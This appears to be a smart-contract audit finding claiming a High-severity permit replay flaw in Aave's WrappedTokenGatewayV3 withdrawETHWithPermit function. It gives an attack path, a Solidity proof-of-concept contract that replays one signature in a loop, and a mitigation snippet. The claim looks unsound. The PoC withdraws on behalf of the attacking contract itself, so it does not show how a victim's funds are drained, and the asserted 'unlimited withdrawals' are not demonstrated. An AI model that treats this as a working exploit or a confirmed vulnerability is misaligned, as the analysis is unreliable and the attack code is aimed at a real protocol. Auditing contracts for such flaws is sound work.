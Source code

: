 Fast Scarlet Beaver

High

# Attackers are able to drain funds through permit replay attacks

### Summary

Lack of permit replay protection in `withdrawETHWithPermit()` will cause fund loss as attackers can reuse valid permit signatures multiple times to drain user funds.



### Root Cause

In src/contracts/helpers/WrappedTokenGatewayV3.sol#141-155 (https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L140-L155) the `withdrawETHWithPermit` function lacks permit replay protection:

### Internal Pre-conditions

1. User must have signed a valid permit
2. Permit deadline must not have expired
3. Permit signature must be accessible


### External Pre-conditions

_No response_

### Attack Path

1. Attacker obtains valid permit signature
2. Calls `withdrawETHWithPermit()` with captured signature
3. Replays same permit in multiple transactions
4. Drains user funds through repeated withdrawals

### Impact

1. Users can lose their entire approved amount multiple times
2. Single permit can be used for unlimited withdrawals

### PoC

```solidity
contract PermitReplayAttack {
    WrappedTokenGatewayV3 gateway;
    
    struct PermitInfo {
        uint256 deadline;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }
    
    function executePermitReplay(
        address token,
        uint256 amount,
        PermitInfo calldata permit
    ) external {
        // First legitimate withdrawal
        gateway.withdrawETHWithPermit(
            token,
            amount,
            address(this),
            permit.deadline,
            permit.v,
            permit.r,
            permit.s
        );
        
        // Replay attacks
        for(uint i = 0; i < 3; i++) {
            gateway.withdrawETHWithPermit(
                token,
                amount,
                address(this),
                permit.deadline,
                permit.v,
                permit.r,
                permit.s
            );
        }
    }
}
```

### Mitigation

```solidity
contract WrappedTokenGatewayV3 {
    mapping(bytes32 => bool) public usedPermits;
    
    function withdrawETHWithPermit(...) external {
        bytes32 permitHash = keccak256(
            abi.encodePacked(msg.sender, amount, deadline, v, r, s)
        );
        require(!usedPermits[permitHash], "Permit already used");
        usedPermits[permitHash] = true;
        
        // Rest of the function
    }
}
```